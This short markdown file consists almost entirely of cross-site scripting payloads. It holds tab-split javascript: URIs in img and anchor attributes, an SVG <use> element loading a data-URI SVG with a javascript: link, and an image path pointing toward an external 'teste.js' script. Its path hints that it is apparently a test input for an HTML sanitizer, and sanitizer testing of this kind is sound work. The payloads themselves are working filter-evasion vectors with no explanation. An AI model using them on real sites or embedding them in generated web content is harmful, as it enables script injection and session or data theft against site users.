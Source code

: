![](../../../../../../../img/onload/../../r89shi/r89shi.github.io/blob/master/teste.js?w=10)

<img src="javas	cript:alert(1)" width="javas	cript:alert(1)">

<a href="javas	cript:alert(1)">XSS</a>

<svg><use href="data:image/svg+xml,<svg id='x' xmlns='http://www.w3.org/2000/svg' xmlns:xlink='http://www.w3.org/1999/xlink' width='100' height='100'><a xlink:href='javascript:alert(1)'><rect x='0' y='0' width='100' height='100' /></a></svg>#x"></use></svg>
